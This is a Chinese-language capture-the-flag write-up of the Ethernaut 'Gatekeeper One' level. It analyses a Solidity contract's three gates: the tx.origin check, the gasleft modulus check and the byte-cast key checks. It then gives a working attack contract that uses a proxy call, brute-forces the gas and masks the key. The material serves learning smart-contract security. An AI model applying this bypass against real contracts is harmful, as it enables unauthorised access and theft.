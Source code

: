 ## Level_13.Gatekeeper One

要求：

> 通过守门人；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    // 三道关卡
    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

### 分析

此合约有3道关卡需要通过；

#### 第一道关卡

需要消息的发送者不是交易的发送者；

这个在之前做过，通过增加一个合约代理利用` call `即可绕过（` delegatecall `不能用，两个值会相同）；



#### 第二道关卡

剩余gas得是8191的倍数；

Solidity中可以使用` call{gas:xxx}("") `自定义携带的gas费用，我们可以利用一个自动化脚本来实现攻击；



#### 第三道关卡

输入数据需要符合各种转换；

![image-20250127010655109](./assets/image-20250127010655109.png)

可以看到，转换基本就是取` bytes `的后多少位；

从最后开始往前推：

输入一共是16个hex；

1. ` uint32(uint64(_gateKey)) == uint16(uint160(tx.origin) `

tx.origin的末尾4个hex = 输入的末尾8个hex

2. ` uint32(uint64(_gateKey)) != uint64(_gateKey) `

完整的输入 != 输入的末尾8个hex

3. ` uint32(uint64(_gateKey)) == uint16(uint64(_gateKey) `

输入的末尾4个hex = 输入的末尾8个hex

总结一下就是：输入的最后4个hex要为我们地址的最后4个hex，前8个hex要不全为0，中间的4个hex要为0；

用位运算来表达就是：` tx.origin & 0xFFFFFFFF0000FFFF `；



### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp {
    function Attack(address addr, uint256 gas) public {
        GatekeeperOne go = GatekeeperOne(addr);
        bytes8 key = bytes8(uint64(uint160(tx.origin) & 0xFFFFFFFF0000FFFF));
        require(go.enter{gas: 8191 * 10 + gas}(key), "failed");
    }

    function Start(address addr) public {
        for(uint256 i = 1; i < 8191; i++){
            try this.Attack(addr, i) {
                break;
            } catch {}
        }
    }
}
```

等个十几秒就成功了：

~~(我这边得到正确的gas后，单独运行` Attack `却失败，调试了好久都不清楚原因...)~~

![image-20250127235808699](./assets/image-20250127235808699.png)

